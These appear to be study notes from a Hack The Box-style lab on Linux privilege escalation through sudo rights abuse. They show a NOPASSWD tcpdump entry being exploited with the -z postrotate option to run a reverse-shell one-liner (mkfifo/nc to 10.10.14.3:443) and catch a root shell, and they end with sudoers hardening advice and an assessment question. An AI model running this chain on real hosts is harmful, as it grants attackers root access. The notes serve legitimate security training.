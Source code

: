 # Sudo Rights Abuse

any rights entries with the `NOPASSWD` option can be seen without entering a password.

```shell-session
sudo -l

Matching Defaults entries for sysadm on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadm may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/tcpdump
```

if the sudoers file is edited to grant a user the right to run a command such as `tcpdump` per the following entry in the sudoers file: `(ALL) NOPASSWD: /usr/sbin/tcpdump` an attacker could leverage this to take advantage of a the **postrotate-command** option.

```shell-session
man tcpdump

<SNIP> 
-z postrorate-command              

Used in conjunction with the -C or -G options, this will make `tcpdump` run " postrotate-command file " where the file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip2 will compress each savefile using gzip or bzip2.
```

specifying the `-z` flag, an attacker could use `tcpdump` to execute a shell script, gain a reverse shell as the root user or run other privileged commands.

```shell-session
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

create the shell script `.test` containing a reverse shell and execute it

Make a file to execute with the `postrotate-command`, adding a simple reverse shell one-liner.

```shell-session
cat /tmp/.test

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f
```

start a `netcat` listener on our attacking box run `tcpdump` as root with the `postrotate-command`. If all goes to plan, we will receive a root reverse shell connection.

```shell-session
sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

dropped privs to root
tcpdump: listening on ens192, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
6 packets received by filter
compress_savefile: execlp(/tmp/.test, /dev/null) failed: Permission denied
0 packets dropped by kernel
```

```shell-session
nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38938
bash: cannot set terminal process group (10797): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id && hostname               
id && hostname
uid=0(root) gid=0(root) groups=0(root)
NIX02
```

[AppArmor](https://wiki.ubuntu.com/AppArmor) in more recent distributions has predefined the commands used with the `postrotate-command`, effectively preventing command execution. Two best practices that should always be considered when provisioning `sudo` rights:

1. Always specify the absolute path to any binaries listed in the `sudoers` file entry. Otherwise, an attacker may be able to leverage PATH abuse (which we will see in the next section) to create a malicious binary that will be executed when the command runs (i.e., if the `sudoers` entry specifies `cat` instead of `/bin/cat` this could likely be abused).
2. Grant `sudo` rights sparingly and based on the principle of least privilege. Does the user need full `sudo` rights? Can they still perform their job with one or two entries in the `sudoers` file? Limiting the privileged command that a user can run will greatly reduce the likelihood of successful privilege escalation.

## Assessment

What command can the htb-student user run as root?

```
htb-student@NIX02:~$ sudo -l
Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: /usr/bin/openssl
```

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption><p>tried reverse shell with sudo but did not get the root priv for some reason</p></figcaption></figure>
